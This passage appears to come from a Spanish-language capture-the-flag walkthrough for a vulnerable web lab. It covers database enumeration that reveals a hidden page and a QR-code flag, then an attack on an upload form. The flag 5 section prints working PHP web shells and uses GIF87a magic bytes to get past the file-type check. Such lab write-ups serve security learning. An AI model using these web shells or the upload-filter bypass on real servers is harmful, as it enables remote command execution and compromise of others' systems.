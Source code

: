 Nombres de base de datos:
![[Pasted image 20240818201258.png]]

La base de datos "admin" es la que nos interesa, obtenemos sus tablas:
![[Pasted image 20240818203423.png]]

Solo hay una tabla llamada "pages", si listamos sus columnas:
![[Pasted image 20240818203541.png]]

Por lo que listamos los "pagesname" de la base de datos:
![[Pasted image 20240818203647.png]]

Podemos ver una nueva página que no conocemos: "tutorials-incomplete". Accedemos a ella y podemos ver una imagen con un código QR que al escanearlo obtenemos la 4.ª flag:

![[Pasted image 20240818203830.png]]

![[Pasted image 20240818204121.png]]

Si descodificamos la *flag* obtenemos el nombre de un fichero que parece ser el fichero de la funcionalidad que no estaba disponible:
![[Pasted image 20240818204238.png]]

## Flag 5
Si entramos en `/uploadr942.php` podemos ver:
![[Pasted image 20240818204407.png]]

Si intentamos subir un archivo `cmd.php` con este contenido:
```php
<?php
	system($_GET['cmd']);
?>
```

Nos prohíbe la subida del archivo:
![[Pasted image 20240818212125.png]]

Si intentamos subir un archivo `cmd.gif` con este contenido para modificar los magic numbers del archivo y que detecte que es un gif:
```php
GIF87a

<?php
	system($_GET['cmd']);
?>
```

Ya no sale el error "Invalid file type" sino que sale lo siguiente:
![[Pasted image 20240818222530.png]]

Por lo que optamos por utilizar otro código php:
```php
GIF87a

<?php
  $c=$_GET['cmd'];
  echo `$c`;
?>
```
